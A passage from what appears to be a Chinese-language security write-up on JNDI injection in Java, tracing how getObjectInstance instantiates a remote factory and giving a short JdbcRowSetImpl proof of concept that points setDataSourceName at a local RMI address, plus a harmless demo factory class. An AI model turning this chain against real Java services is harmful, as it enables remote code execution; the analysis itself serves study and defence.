 在decodeObject中，会判断传入对象是满足RemoteReference接口，满足则通过getReference函数获取reference对象，然后进入getObjectInstance函数  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    if (ref != null) {  
                String f = ref.getFactoryClassName();            if (f != null) {                // if reference identifies a factory, use exclusively  
      
                    factory = getObjectFactoryFromReference(ref, f); //触发点1                if (factory != null) {                    return factory.getObjectInstance(ref, name, nameCtx,                                                     environment); //触发点2                }                // No factory found, so return original refInfo.                // Will reach this point if factory class is not in                // class path and reference does not contain a URL for it                return refInfo;

在getObjectInstance函数中，一共有两处可执行RMI中定义的恶意代码的地方，一处是getObjectFactoryFromReference，在getObjectFactoryFromReference中会通过获取到对应的Class对象，通过clas.newInstance()触发恶意构造函数

  * 

    
    
    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;

另外一处，则是通过实例化的类，调用其getObjectInstance函数，只要我们实现了ObjectFactory接口，复写getObjectInstance函数，即可执行恶意代码  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    public class Exec implements ObjectFactory {  
        public Exec(){    }  
      
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {        System.out.println("factory.getObjectInstance hook!");        return null;    }}

 **JdbcRowSetImpl的JNDI注入利用链**

  

在实战过程中，context.lookup直接被外部调用的情况比较少，但是我们可以通过间接调用context.lookup实现JNDI的注入，JdbcRowSetImpl就是这样一条利用链，先来看一下最终的POC

  *   *   *   * 

    
    
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");JdbcRowSetImpl j = new JdbcRowSetImpl();j.setDataSourceName("rmi://127.0.0.1:9527/exec");j.setAutoCommit(true);

  

调用链如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805141839.png)

可以看到，唯一的不同在于lookup前调用了setAutoCommit以及connect

  

 **坑**

  
